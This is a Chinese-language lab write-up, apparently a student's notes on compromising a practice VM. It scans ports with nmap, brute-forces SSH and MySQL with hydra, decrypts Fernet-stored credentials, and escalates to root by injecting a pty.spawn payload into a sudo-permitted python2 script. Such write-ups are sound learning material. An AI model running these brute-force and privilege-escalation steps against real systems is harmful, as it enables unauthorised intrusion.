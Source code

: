 # 笔记

## 战前准备环节

1.虚拟机突然断网

首先ifconfig，可以看到没有正在工作的网卡，只有localhost

然后ifconfig -a，可以看到eth0这块网卡并没有离家出走，只是罢工了而已

进入/etc/network

用vim打开interface文件

加入

auto eth0

iface eth0 inet dhcp

:wq保存



命令行执行/etc/init.d/networking restart



## 正式开始

### 信息收集

1.获取目标主机信息

可以用arp-scan -l扫描到靶机，但我是直接看靶机信息的

![image-20231027162452716](..\pics\image-20231027162452716.png)

192.168.127.129

2.作端口扫描

nmap -p- 192.168.127.129

![image-20231027162540094](..\pics\image-20231027162540094.png)

有一个mysql端口，另一个还不知道，再扫版本和信息

nmap -p3306,1337 -sC -sV 192.168.127.129

![image-20231027162706141](..\pics\image-20231027162706141.png)

另一个是ssh端口



### 开始渗透

准备爆破字典

cp /usr/share/wordlists/rockyou.txt.gz . 

这行指令还真能搞出来一个文件，**具体原理还不知道，需要后续学习**

gunzip rockyou.txt.gz 



对ssh端口和mysql端口分别进行爆破（使用hydra）

hydra -l root -P rockyou.txt ssh://192.168.127.129:1337/

hydra -l root -P rouckyou.txt mysql://192.168.127.129

得到mysql上爆破成功

![image-20231027163006644](..\pics\image-20231027163006644.png)



登录mysql

mysql -u root -h 192.168.127.129 -p

输入密码，登录

爆库，爆表

![image-20231027163132349](..\pics\image-20231027163132349.png)

![image-20231027163145367](D:\1-政企业务\pics\image-20231027163145367.png)

fernet解密：https://cryptography.io/en/latest/fernet/

填入参数来解密

![image-20231027163233879](..\pics\image-20231027163233879.png)

得到的用户名和密码，尝试ssh登录

ssh lucy@192.168.127.129 -p 1337

![image-20231027163414692](..\pics\image-20231027163414692.png)

成功登录，然后sudo -l查看当前用户能够做什么

能够python2运行exp

先cat /opt/exp.py看里面是什么

![image-20231027163509358](..\pics\image-20231027163509358.png)

### 提权

raw_input函数，可以尝试python2提权，参考https://blog.csdn.net/qq_40898302/article/details/124681969

 -c : 执行具体的代码

import ：导入语句

pty ： 终端（接口）

pty.spawn : 执行命令

import pty;pty.spawn('/bin/bash')

执行之后，提权成功

![image-20231027163639280](..\pics\image-20231027163639280.png)

## 知识点总结

1.使用arp-scan扫描本网段下存活的主机

然后nmap扫描端口，对未知端口可以使用-sC -sV探测详细信息

2.准备爆破字典的两个命令，需要再学习

3.hydra语句爆破的学习

4.mysql语句连接的学习，以及在数据库中查询语句的学习

5.fernet加密的学习，包括使用python3解密的学习

![image-20231027164332984](..\pics\image-20231027164332984.png)

6.成功连接主机之后的提权：sudo -l查看当前用户的权限

对代码审计的理解，raw_input是经典的函数

![image-20231027164240323](..\pics\image-20231027164240323.png)

且有exec函数，考虑代码注入



### 问题点

#### 爆破字典指令是怎么实现的



#### mysql查出的关键信息如何判定就是用于ssh的



#### /bin/bash一段的重要性？在mysql环节是有使用到的



#### python2提权代码的深入理解

经过验证，直接su也可以

![image-20231027165454287](..\pics\image-20231027165454287.png)

(root)NOPASSWD指明了使用sudo权限的时候使用这些命令不需要输入密码

import pty;

pty.spawn('su')

这两行就是执行su的意思

由于raw_input接收了这两行，并且被exec执行

因此原代码行等价于

sudo python2 exec(import pty;pty.spawn('su'))

又因为使用python2 执行exp.py不需要密码

因此等价于

sudo su且不需要输入密码

因此能提权成功

